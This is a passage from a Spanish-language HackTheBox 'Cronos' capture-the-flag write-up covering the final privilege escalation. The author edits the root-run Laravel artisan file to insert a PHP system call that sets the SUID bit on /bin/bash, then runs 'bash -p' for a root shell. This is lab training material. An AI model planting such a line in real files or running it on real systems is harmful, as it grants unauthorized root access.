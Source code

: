 por lo tanto modificare dicho archivo para dar permisos suid al binario bash 

```bash

GNU nano 2.5.3                                       File: /var/www/laravel/artisan                      Modified  

#!/usr/bin/env php
<?php
system("chmod u+s /bin/bash");
/*
|--------------------------------------------------------------------------
| Register The Auto Loader
|--------------------------------------------------------------------------
|
| Composer provides a convenient, automatically generated class loader
| for our application. We just need to utilize it! We'll require it
| into the script here so that we do not have to worry about the
| loading of any our classes "manually". Feels great to relax.
|
*/
[snip]
```

asi de esta manera esperaremos un rato que la tarea se ejecute y escalamos privilegios como root de la siguiente manera 

```bash
www-data@cronos:/tmp$ /bin/bash -p
```

![Untitled](/assets/images/2022-02-08-writeup-maquina-htb-cronos/Untitled%2011.png)

gracias por leer este writeup, nos vemos AbelJM.